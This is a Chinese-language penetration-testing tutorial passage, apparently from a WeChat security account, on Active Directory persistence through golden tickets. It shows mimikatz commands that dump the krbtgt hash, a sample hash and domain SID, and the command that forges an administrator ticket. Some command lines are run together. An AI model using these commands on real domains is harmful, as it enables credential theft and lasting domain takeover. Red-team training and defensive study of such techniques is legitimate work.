 ##  内网渗透｜域内持久化与Windows日志删除

原创 11ccaab  [ HACK学习呀 ](javascript:void\(0\);)

**HACK学习呀** ![]()

微信号 Hacker1961X

功能介绍
HACK学习，专注于互联网安全与黑客精神；渗透测试，社会工程学，Python黑客编程，资源分享，Web渗透培训，电脑技巧，渗透技巧等，为广大网络安全爱好者一个交流分享学习的平台！

____

__

收录于话题

#windows 2

#内网渗透 19

#权限维持 4

# 0x01 金票

可以使用krbtgt的NTLM hash创建作为任何用户的有效TGT。要伪造黄金票据的前提是知道域的SID和krbtgt账户的hash或者AES-256值。

## 1.1 收集krbtgt密码信息

    
    
    privilege::debuglsadump::lsa /inject /name:krbtgt

![](https://gitee.com/fuli009/images/raw/master/public/20210814114522.png)

得到krbtgt的hash：

    
    
    c73caed3bc6f0a248e51d37b9a8675fa

域sid值：

    
    
    S-1-5-21-151877218-3666268517-4145415712

## 1.2 金票利用

使用mimikatz伪造kerberos票证

 **生成gold.kribi**

    
    
     mimikatz "kerberos::golden /domain:redteam.local /sid:S-1-5-21-151877218-3666268517-4145415712/krbtgt:c73caed3bc6f0a248e51d37b9a8675fa /user:administrator/ticket:gold.kirbi"

![](https://gitee.com/fuli009/images/raw/master/public/20210814114531.png)
